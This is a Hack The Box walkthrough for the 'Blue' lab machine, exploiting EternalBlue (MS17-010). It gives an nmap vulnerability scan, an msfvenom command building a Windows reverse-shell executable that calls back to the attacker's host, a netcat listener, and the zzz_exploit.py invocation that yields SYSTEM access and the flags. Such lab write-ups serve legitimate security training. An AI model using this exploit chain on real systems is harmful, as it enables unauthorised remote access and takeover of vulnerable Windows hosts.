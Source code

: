 ```yaml
---
layout: post
title: "HTB-Blue"
categories: HTB-Walkthrough
---
```


![Blue](/assets/img/blue/blue.png)

Blue is a very straight forward box, which as the name suggests, gives us an opportunity to explore 'The' exploit that causes people to talk in riddles!

[EternalBlue](https://en.wikipedia.org/wiki/EternalBlue) (MS17-010) is a devastating exploit.

Lets dive straight in with an nmap scan.

`nmap -sV -Pn 10.10.10.40 --script=vuln |tee -a blue.txt`


![nmap](/assets/img/blue/blue-nmap.png)



I'm going to use a version of the exploit, found on [github](https://github.com/worawit/MS17-010), the `zzz_exploit.py` is the one!


<h3>The Exploit</h3>

First, I use msfvenom to generate the payload...

```

msfvenom -p windows/shell_reverse_tcp -f exe-service lhost=10.10.14.16 lport=443 -o ebevil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
Saved as: ebevil.exe

```

Next, I set my netcat listener to catch the returning shell.

`nc -nlvp 443`



The exploit is simple to execute; in my case the command is:

`python /opt/EternalBlue/zzz_exploit.py 10.10.10.40 ebevil.exe`

![zzz-exploited](/assets/img/blue/zzz-exploited.png)

Its a simple thing then to grab those flags...

```

c:\Users>type haris\desktop\user.txt
type haris\desktop\user.txt
4cxxxxxxxxxxxxxxxxxxxxxxxxxxxxa9
c:\Users>type administrator\desktop\root.txt
type administrator\desktop\root.txt
ffxxxxxxxxxxxxxxxxxxxxxxxxxxxx17
c:\Users>

```

:)


